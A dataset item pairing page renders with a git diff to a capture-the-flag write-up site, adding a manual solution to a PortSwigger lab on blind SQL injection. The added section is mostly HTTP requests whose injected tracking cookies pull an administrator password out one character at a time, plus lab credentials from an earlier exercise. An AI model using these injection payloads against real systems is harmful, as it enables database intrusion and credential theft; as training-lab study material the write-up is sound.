

Before and after one commit to Sirius-A/ctf-writeups, an MkDocs documentation site: the page built from docs/writeups/2023/portswigger-bscp-labs/sql-injections.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
feat: add manual solution for first blind sql injection

````diff
--- a/docs/writeups/2023/portswigger-bscp-labs/sql-injections.md
+++ b/docs/writeups/2023/portswigger-bscp-labs/sql-injections.md
@@ -1,5 +1,4 @@
-# SQL Injection Labs for the BSCP
-
+# SQL Injection Labs for BSCP
 
 ## SQL injection attack, listing the database contents on Oracle
 
@@ -24,3 +23,36 @@ GET /filter?category='+UNION+SELECT+NULL,PASSWORD_TLPSHT+||+':'+||+USERNAME_ZZFD
 weq2qre17hvdxek7a4sv:carlos
 zu913q61aqwqtdyrv2xo:administrator
 ```
+
+## Blind SQL injection with conditional responses
+
+```
+GET /filter?category=Toys+%26+Games HTTP/2
+Host: 0adf004e04ea2a9c854a78ad00360047.web-security-academy.net
+Cookie: TrackingId=cQvDEyZPW0ZMMZVx; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e
+
+# Check if execution happens
+GET /filter?category=Toys+%26+Games HTTP/2
+Host: 0adf004e04ea2a9c854a78ad00360047.web-security-academy.net
+Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND '3'='3; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e
+
+# Check fist letter
+Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 1, 1) <= 'm session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e
+
+# First match
+Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 1, 1) = 'f; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e
+
+# Second Letter
+Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 2, 1) = 'a; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e
+
+# Third
+Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 3, 1) = '5; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5eA
+
+# Final
+GET /filter?category=Toys+%26+Games HTTP/2
+Host: 0adf004e04ea2a9c854a78ad00360047.web-security-academy.net
+Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 1, 20) = 'fa55g4p06ue320533fus; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e
+```
+
+This could have been done way more efficiently by using the intruder feature of
+BurpSuite.
````
